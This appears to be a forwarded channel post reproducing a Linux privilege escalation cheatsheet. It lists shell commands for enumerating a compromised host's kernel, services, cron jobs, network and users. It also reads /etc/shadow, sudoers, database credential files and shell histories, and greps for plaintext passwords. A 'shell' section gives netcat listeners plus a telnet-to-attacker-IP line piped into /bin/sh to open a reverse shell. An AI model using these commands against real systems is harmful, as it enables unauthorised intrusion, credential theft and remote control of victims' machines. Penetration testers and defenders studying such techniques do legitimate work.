 [Forwarded from TechnicalGrey]
𝙏𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩

Operating System
What's the distribution type? What version?

cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release


What's the kernel version? Is it 64-bit?

cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-

What can be learnt from the environmental variables?

cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set

Is there a printer?

lpstat -a

Applications & Services

What services are running? Which service has which user privilege?

ps aux
ps -ef
top
cat /etc/services




Which service(s) are been running by root? Of these services, which are vulnerable




ps aux | grep root
ps -ef | grep root




What applications are installed? What version are they? Are they currently running?




ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/




Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?




cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/




What jobs are scheduled?




crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root




Any plain text usernames and/or passwords?




grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla




Communications & Networking



What NIC(s) does the system have? Is it connected to another network?




/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network




What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?




cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname




What other users & hosts are communicating with the system?




lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w




Whats cached? IP and/or MAC addresses




arp -e
route
/sbin/route -nee

Is packet sniffing possible? What can be seen? Listen to live traffic




tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21




Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]




Have you got a shell? Can you interact with the system?




nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [attackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!




Confidential Information & Users



Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?




id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l




What sensitive files can be found?




cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/

Anything "interesting" in the home directorie(s)? If it's possible to access




ls -ahlR /root/
ls -ahlR /home/




Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords




cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg




What has the user being doing? Is there any password in plain text? What have they been edting?




cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history




What user information can be found?




cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root

